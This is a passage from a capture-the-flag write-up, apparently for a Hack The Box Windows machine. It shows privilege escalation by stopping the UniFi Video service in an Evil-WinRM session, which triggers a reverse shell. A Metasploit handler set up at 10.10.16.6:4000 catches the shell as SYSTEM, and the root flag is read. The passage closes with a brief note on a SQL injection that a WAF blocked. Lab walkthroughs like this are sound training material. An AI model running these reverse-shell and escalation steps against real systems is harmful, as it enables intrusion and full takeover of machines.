 Lastly, all we have to do is to stop the UnifiVideoService on the vulnerable machine.

```
*Evil-WinRM* PS C:\ProgramData\unifi-video> Stop-Service -Name UniFiVideoService
Warning: Waiting for service 'Ubiquiti UniFi Video (UniFiVideoService)' to stop...
Warning: Waiting for service 'Ubiquiti UniFi Video (UniFiVideoService)' to stop...
Warning: Waiting for service 'Ubiquiti UniFi Video (UniFiVideoService)' to stop...
Warning: Waiting for service 'Ubiquiti UniFi Video (UniFiVideoService)' to stop...
Warning: Waiting for service 'Ubiquiti UniFi Video (UniFiVideoService)' to stop...
Warning: Waiting for service 'Ubiquiti UniFi Video (UniFiVideoService)' to stop...
Warning: Waiting for service 'Ubiquiti UniFi Video (UniFiVideoService)' to stop...
Warning: Waiting for service 'Ubiquiti UniFi Video (UniFiVideoService)' to stop...
```

This will then create a reverse shell on our msf listener

```
msf6 > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/shell/reverse_tcp
payload => windows/shell/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 10.10.16.6
LHOST => 10.10.16.6
msf6 exploit(multi/handler) > set LPORT 4000
LPORT => 4000
msf6 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 10.10.16.6:4000 
[*] Encoded stage with x86/shikata_ga_nai
[*] Sending encoded stage (267 bytes) to 10.10.10.104
[*] Command shell session 1 opened (10.10.16.6:4000 -> 10.10.10.104:49703) at 2022-05-13 01:53:38 -0400

whoami
whoami
nt authority\system

C:\ProgramData\unifi-video>
```

### Obtaining root flag

```
C:\Users\Administrator\Desktop>type root.txt
type root.txt
<Redacted root flag>
```
## Post-Exploitation
### SQL Injection
Somehow all the union based SQL Injections redirect me to error pages and I am not able to extract the databases at all. The reason why we are unable to extract the databases was due to the fact that there is a web application firewall that will filter out the malicious requests
